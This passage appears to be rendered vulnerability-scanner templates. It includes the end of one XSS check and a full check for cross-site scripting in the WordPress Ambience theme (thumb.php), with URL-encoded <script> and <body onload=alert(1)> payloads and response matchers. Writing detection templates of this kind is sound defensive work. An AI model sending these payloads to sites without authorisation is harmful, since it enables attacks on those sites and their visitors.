 **Type - word**

- part - body
- words
  1. value="FB_appId">\<script>alert(document.domain)\</script>"

**Type - word**

- words
  1. text/html
- part - header

**Type - status**

- status
  1. 200

---

# WordPress Ambience Theme \<=1.0 - Cross-Site Scripting

## Description

- WordPress Ambience Theme 1.0 and earlier was affected by a cross-site scripting vulnerability.

- severity - medium
- tags - wp-plugin,wp,edb,wpscan,wordpress,xss

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/themes/ambience/thumb.php?src=%3Cbody%20onload%3Dalert(1)%3E.jpg

### Matchers

**Type - word**

- part - body
- words
  1. \<body onload=alert(1)>

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---
